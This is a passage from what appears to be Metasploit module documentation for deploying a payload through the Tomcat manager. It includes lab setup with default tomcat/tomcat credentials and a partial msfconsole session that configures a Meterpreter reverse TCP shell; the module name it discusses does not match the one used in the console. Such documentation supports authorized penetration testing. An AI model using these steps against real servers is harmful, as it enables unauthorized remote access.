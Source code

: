 # Documentation Format
This documentation is slightly different from the standard module documentation due to the variation in variables/privileges/versions that can affect how exploitation happens.
This documentation is broken down by OS, Tomcat version, then privilege to show exploitation in each variation.

# Cleanup
It should be stated outright that the exploit MAY NOT undeploy the shellcode from Tomcat.  This can be done [manually](#manual-cleanup).

# tomcat_mgr_upload
This module is VERY similar to `exploit/multi/http/tomcat_mgr_upload`, the main difference is this uses a `PUT` HTTP request, instead of going through a `POST` HTTP request through the GUI.

## Windows (xp sp2)
### Tomcat 6 (6.0.48)
#### Setup

1. Download and install the pre-req [Java7](http://www.oracle.com/technetwork/java/javase/downloads/jre7-downloads-1880261.html)
2. Download and install [Tomcat6](http://apache.osuosl.org/tomcat/tomcat-6/v6.0.48/bin/apache-tomcat-6.0.48.exe)

The install was default, other than adding a user during install.  No other options were changed.  The install assgined the new user the role `manager-gui`, which is Tomcat 7+ syntax.
For this exploitation, it was changed to simply `manager`.

#### Exploitation

1. Edit `C:\Program Files\Apache Software Foundation\Tomcat 6.0\tomcat-users.xml` to add the following under the `<tomcat-users>` line:

    ```
    <role rolename="manager"/>
    <user username="tomcat" password="tomcat" roles="manager"/>
    ```

2. Restart Tomcat service

3. Exploit:

    ```
    msf > use exploit/multi/http/tomcat_mgr_deploy
    msf exploit(tomcat_mgr_deploy) > set rhost 192.168.2.108
    rhost => 192.168.2.108
    msf exploit(tomcat_mgr_deploy) > set verbose true
    verbose => true
    msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
    HttpPassword => tomcat
    msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
    HttpUsername => tomcat
    msf exploit(tomcat_mgr_deploy) > set lhost 192.168.2.117
    lhost => 192.168.2.117
    msf exploit(tomcat_mgr_deploy) > set payload java/meterpreter/reverse_tcp
    payload => java/meterpreter/reverse_tcp
    msf exploit(tomcat_mgr_deploy) > set target 1
    target => 1
    msf exploit(tomcat_mgr_deploy) > set rport 8086
    rport => 8086
    msf exploit(tomcat_mgr_deploy) > set path /manager
    path => /manager
